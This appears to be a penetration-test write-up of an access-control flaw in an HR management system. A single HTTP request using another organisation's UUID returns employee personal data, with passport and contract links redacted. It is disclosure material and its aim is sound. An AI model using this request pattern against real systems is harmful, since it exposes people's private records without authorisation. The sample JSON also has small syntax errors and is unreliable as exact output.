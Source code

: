 
We were conducting tests on a client management system designed for employee management and HR functions. During our evaluation of the system's profile section, we discovered a potential vulnerability related to the use of UUIDs. We can get sensitive PII data of any organisation's employees including their contracts and passports using organisations' UUIDs which increases the severity of the issue.

To validate this issue, we created two organisations, OrgA and OrgB, both of which were under our control. The primary challenge lies in enumerating UUIDs from other organisations in order to exploit this vulnerability.

**Request:**

```http
GET /api/v1/profile/data/c/39f83650-14af-422b-8771-555213ec27ef HTTP/1.1
Host: redacted.co.uk
Cookie: <Redacted>
```

**Response:**

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 13 June 2023 11:32:08 GMT  
Set-Cookie: <Redacted>
Content-Type: application/json

{
  "status": "success",
  "uuid": "39f83650-14af-422b-8771-555213ec27ef",
  "orgName": "REDACTED",
  "data": [
  {
    "id": "b50120e5-fa3d-4d87-ada9-468706f52c27",
    "first_name": "John",
    "last_name": "Doe",
    "email": "john.doe@REDACTED.com",
    "age": 32,
    "address": "123 Main Street",
    "city": "Anytown",
    "state": "CA",
    "zip_code": "12345",
    "employee_status": "REDACTED"
    "passport_URL": "REDACTED",
    "Contract_URL" "REDACTED"
  },
  {
    "id": "7be32264-c087-46a5-8b6d-f5686b7e67cb",
    "first_name": "Jane",
    "last_name": "Smith",
    "email": "jane.smith@REDACTED.com",
    "age": 28,
    "address": "456 Elm Street",
    "city": "Somewhere",
    "state": "NY",
    "zip_code": "54321",
    "employee_status": "REDACTED"
    "passport_URL": "REDACTED",
    "Contract_URL" "REDACTED"
  },
  \\SNIP\\
]
}
```
